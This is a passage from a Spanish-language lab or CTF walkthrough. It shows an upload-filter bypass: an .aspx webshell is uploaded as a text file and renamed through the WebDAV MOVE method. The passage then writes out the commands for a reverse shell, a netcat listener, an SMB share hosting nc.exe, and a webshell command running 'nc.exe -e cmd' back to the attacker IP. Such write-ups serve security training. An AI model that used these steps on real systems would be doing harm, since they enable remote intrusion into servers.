 Probaremos nuevamente de acceder al nuevo archivo renombrado, y verificamos que hemos logrado eludir la verificación de la subida del archivo `aspx`. Esto debido que hemos subido el archivo en formato `.txt` y como disponíamos del método `MOVE` habilitado, lo renombramos por la extensión que deseamos.

Verificaremos a través de la ejecución del comando `whoami` de validar si funciona correctamente la **webshell**.

<figure><img src="../../.gitbook/assets/imagen (263).png" alt=""><figcaption></figcaption></figure>

Nos pondremos en escucha por un puerto para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Desde otra terminal, deberemos de disponer del binario de `nc.exe` y levantar un servidor `SMB` para compartir este binario.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sat Jan 25 22:49:55 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde la **webshell** que hemos subido, ejecutaremos el binario de `nc.exe` que se está compartiendo en nuestro recurso compartido con el objetivo de obtener una Reverse Shell.

```powershell
\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 443
```

<figure><img src="../../.gitbook/assets/4126_vmware_WyV3ozJLTI.png" alt=""><figcaption></figcaption></figure>
